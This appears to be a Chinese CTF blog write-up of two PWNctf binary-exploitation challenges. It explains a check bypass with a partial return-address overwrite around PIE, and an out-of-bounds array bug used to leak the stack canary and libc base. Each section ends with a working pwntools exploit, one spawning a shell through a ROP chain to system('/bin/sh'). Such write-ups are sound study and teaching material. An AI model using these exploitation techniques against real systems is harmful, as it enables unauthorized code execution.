










<!--yml
category: 未分类
date: 2022-04-26 14:37:08
-->

# PWNctf的pwn题解析_Peanuts_CTF的博客-CSDN博客_ctfpwn题

> 来源：[https://blog.csdn.net/w12315q/article/details/83869439](https://blog.csdn.net/w12315q/article/details/83869439)

## importantservice

这个题目比较简单，保护开的很多多到我怀疑自己是不是把题目想的太简单了，结果果然是这么简单的。。

### 程序功能分析

**main函数分析**

****

main函数的功能并不复杂，开头一个dologic函数对v5这个指针进行一个赋值，然后接着让你输入两个数字，是身高和体重，会有一个check乘积不能大（可能怕你太不匀称?）但是我们可以输入0来对此检查进行绕过，然后又进入了一个如数，这是我们可以控制长度的输入（控制v6即可，果然重量的控制是最重要的hhh），此时观察栈我们可以进行覆盖函数

**dologic函数**



这个函数其实并没有什么用。。。

**givemeshell函数**


这里有一个getshell的函数，一般不出意外就是控制程序能够跳转到这里就可以了。

### 调试程序

**保护检查**



好吧当时我就是看见这些保护全开了，以为是一个比较难的栈溢出的题目，结果。。hhh

**v5函数指针偏移确定**

这里用ida直接看或者gdb调试都可以，你可以发现他自己就是在栈上，而且和canary一点关系都没有

### 思路分析

一、对身高体重进行一个绕过，这里是纯脑洞，使我们的输入可以无限变大

二、开了pie，可以利用地址的低位覆盖让程序覆盖到我们想要的getshell地址（刚开始做题目的时候，四位定式了，对开了pie的题目第一步就是想到要进行地址泄漏，发现怎么也泄漏不出地址所以卡了好久。最后柳暗花明了，忘记了最简单的绕过方法。）

### exp:

```
from pwn import*
p = process('./importantservice')
context.log_level = 'debug'
payload = 'a'*1024 + '\xA9\x11'
raw_input()
p.recvline()
p.sendline('1025 0')
p.recvline()
p.send(payload)

p.interactive()
```

## exploitClass

这道题目考查的是数组越界和canary的绕过，我个人觉得是质量非常高的一个题目，题目本身不难但是很有做的价值

### 程序功能分析

**main函数**



函数本身并没有什么特别的地方，就是打印一个字符串，这个时候点进buffer函数看看吧。

**buffer函数**

****

看函数，具体有两个功能一个是writeData,一个是readData，然后如果输入的数不是1或者2就是执行退出这个操作。这里并没有什么问题，继续分析其他两个函数。

**writeData函数**



这个函数里就有些问题了v2检查的数过大，所以存在一个数组越界的漏洞，我们可以执行一个任意写的操作，在看看readData函数，看看能不能有什么泄漏操作。

**readData函数**



这里我们可以进行一个数组的读的操作，这个操作利用的是puts是一个0截断的来判断字符串是否结束的函数，而在writeData中的read是一个自动会把后面的‘\n’去掉的函数，所以可以利用这个来泄漏各种东西比如：canary,libcbase

### 调试过程

**保护检查**

好吧。。动不动就是保护全开的。。 



**canary地址确定**

****

观察这里是一个对canary的check，所以我们看箭头所指向的2处，往上rax的值就是canary，这个时候我们在栈当中去寻找canary所处的地址 



图中所指的栈的位置就是canary所处的位置了，泄漏了他就可以了。

**exit退出时调试**

这里就不上图了，调试过程中可以发现当输入3的时候buffer函数会返回到main+44这个地址，且在栈中，因此可以对其进行覆盖然后做一个ROP

### 思路分析

一、先利用数组越界这个漏洞进行一个canary，libcbase的泄漏操作，计算出基地址。其中因为read函数有一个检查只能读到21，这里我们可以利用puts函数0截断的特点进行一个垃圾字符的填充从而做到泄漏地址和写地址的操作

二、覆盖函数的ret进行一个ROP链的利用，关于ROP的利用就不多说了，坑点无非就是这里是一个64位的程序不是直接引用栈的。

### exp:

```
from pwn import *

p = process("./exploitClass")
elf = ELF("./exploitClass")
libc = elf.libc
context.log_level = 'debug'
def read(index):
   p.recvuntil("Enter 1 to read, 2 to write and any other number to exit!\n")
   p.sendline("1")
   p.recvuntil("Which entry to show?\n")
   p.sendline(str(index))
   ret_info = p.recvuntil("\n")
   return ret_info[:-1]

def write(index,data):
    p.recvuntil("Enter 1 to read, 2 to write and any other number to exit!\n")
    p.sendline("2")
    p.recvuntil("Which entry to write?\n")
    p.sendline(str(index))
    p.recvuntil("What to write?\n")
    p.send(data)

write(21,"A"*12)
write(22,"B")
canary = u64(read(21)[12:20])-ord("B")
print "canary = " + hex(canary)

write(22,"1"*12)
write(23,"1"*12)
write(24,"1"*12)
write(25,"1"*12)

libc_base = u64(read(21)[12+48:20+48-2].ljust(8,'\x00')) - 240 - libc.symbols['__libc_start_main']

print "libc_base = " + hex(libc_base)
raw_input()
pop_rdi_ret = 0x21102 + libc_base
binsh_addr = next(libc.search('/bin/sh\x00')) + libc_base
system = libc.symbols['system'] + libc_base
write(22,p64(canary))

write(24,"\x00"*8+p64(pop_rdi_ret)[0:4])
write(25,p64(pop_rdi_ret)[4:8]+p64(binsh_addr))
write(26,p64(system))

p.sendline("3")
p.interactive()
```